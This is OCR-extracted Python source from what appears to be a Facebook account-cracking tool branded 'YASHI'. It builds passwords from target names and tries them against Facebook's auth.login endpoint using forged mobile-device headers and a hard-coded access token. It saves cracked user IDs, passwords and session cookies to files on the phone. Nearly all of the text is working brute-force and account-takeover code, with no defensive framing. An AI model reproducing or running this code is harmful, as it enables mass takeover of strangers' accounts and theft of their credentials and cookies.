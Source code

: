                     print(f"\r{R} [YASHI-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/YASHI_OK_ids_M1.txt','a').write(sid+'|'+ps+'\n');open('/sdcard/YASHI_iDs_COOKiEs_M1.txt','a').write(sid+'|'+ps+'|'+cookie+'\n')
                    break
                elif 'www.facebook.com' in q['error']['message']:
                     #print(f"\r{A} [YASHI-CP] {sid} | {ps} {S}")
                     cps.append(sid)
                     open('/sdcard/YASHI_CP.txt','a').write(sid+'|'+ps+'\n')
                else:
                    continue
            loop+=1
        except requests.exceptions.ConnectionError:
            self.methodA(sid, name, ps)
            
    def methodC(self, sid, name, psw):
        try:
            global oks,cps,loop
            sys.stdout.write(f"\r {S}[YASHI] {loop} | M3 OK/CP {len(oks)}/{len(cps)} | {S}{'{:.0%}'.format(loop/float(len(self.id)))}{S}")
            sys.stdout.flush()
            fs = name.split(' ')[0]
            try:
                ls = name.split(' ')[1]
            except:
                ls = fs
            for pw in psw:
                ps = pw.replace('first',fs.lower()).replace('First',fs).replace('last',ls.lower()).replace('Last',ls).replace('Name',name).replace('name',name.lower())
                with requests.Session() as session:
                    data = {"adid": str(uuid.uuid4()),
"format": "json",
"device_id": str(uuid.uuid4()),
"cpl": "true",
"family_device_id": str(uuid.uuid4()),
"credentials_type": "device_based_login_password",
"error_detail_type": "button_with_disabled",
"source": "device_based_login",
"email": sid,
"password": ps,
"access_token": "350685531728%7C62f8ce9f74b12f84c123cc23437a4a32",
"generate_session_cookies": "1",
"meta_inf_fbmeta": "",
"advertiser_id": str(uuid.uuid4()),
"currently_logged_in_userid": "0",
"locale": "en_GB",
"client_country_code": "GB",
"method": "auth.login",
"fb_api_req_friendly_name": "authenticate",
"fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
"api_key": "882a8490361da98702bf97a021ddc14d"}
                headers = {'User-Agent': randBuildLSB(),
'Content-Type': 'application/x-www-form-urlencoded',
'Host': 'graph.facebook.com',
'X-FB-Net-HNI': str(random.randint(20000, 40000)),
'X-FB-SIM-HNI': str(random.randint(20000, 40000)),
'X-FB-Connection-Type': 'MOBILE.LTE',
'X-Tigon-Is-Retry': 'False',
'x-fb-session-id': 'nid=jiZ+yNNBgbwC;pid=Main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62',
'x-fb-device-group': '5120',
'X-FB-Friendly-Name': 'ViewerReactionsMutation',
'X-FB-Request-Analytics-Tags': 'graphservice',
'X-FB-HTTP-Engine': 'Liger',